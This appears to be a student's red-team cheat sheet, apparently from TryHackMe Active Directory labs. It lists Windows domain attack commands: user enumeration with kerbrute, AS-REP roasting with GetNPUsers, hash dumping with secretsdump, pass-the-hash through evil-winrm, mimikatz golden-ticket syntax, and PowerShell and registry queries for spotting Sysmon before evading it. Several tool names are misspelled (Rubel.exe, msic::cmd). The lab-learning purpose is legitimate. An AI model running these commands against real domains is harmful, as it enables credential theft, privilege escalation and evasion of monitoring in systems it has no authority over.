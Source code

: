 ## COMMANDS
- systeminfo ==> command
  - Os config + Domain
  - Domain = AD
  - Workgroup = local workgroup
- getAdUser -Filter*
  - show all ad user account
  - -Searchbase "CN=Users,DC=THMREDTEAM,DC=COM"
    - Get-ADUser -Filter * -SearchBase "OU=THM,DC=THMREDTEAM,DC=COM"

- port 139/445
- Enum4linux = Enumerate
- kerbrute = brute force in kerberus active directory
  - Find users
    - kerbrute userenum -d domain --dc ip word_list.txt
- Find user without password (NP)
  - GetNPUsers.py --no-pass -usersfiles {wordlist.txt} domain.com/ -dc-ip [IP-address]
- find other hashes
  - secretsdump.py -dc-ip ip host.local/user@ip
- Pass the hash
  - evil-winrm -i IP -u USERNAME -H hash

# KERBEROS
- authentication service
- ticket system
- Enumerate users
  - kerbrute userenum -d domain --dc domain string wordlist.txt
- Rubel.exe (in the victim's machine) to find hashes
- mimikatz for golden ticket
  - lsadump::lsa /inject /name:USERNAME
  - kerberos::golden /user:[logged_user] /domain:[name_domain] /sid: /krbtgt:[hash_des_Nutzers] /id:
  - msic::cmd ==> access other machine

# PERSISTANCE
- Identify segemtns: vlans, dmz
- IDS, IPDS, Endpoint Detection and Response
- 
- Logs
  - sysmon: logger
    - get-Process | Where-Object  { $_.ProcessName -eq "Sysmon" }
    - Get-CimInstance win32_service -Filter "Description = 'System Monitor Service'"
    - Get-Service | where-object {$_.DisplayName -like "*sysm*"}
    - Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
    - reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
    - findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*

- Enumerate services, hidden folders and process, shared files/printers

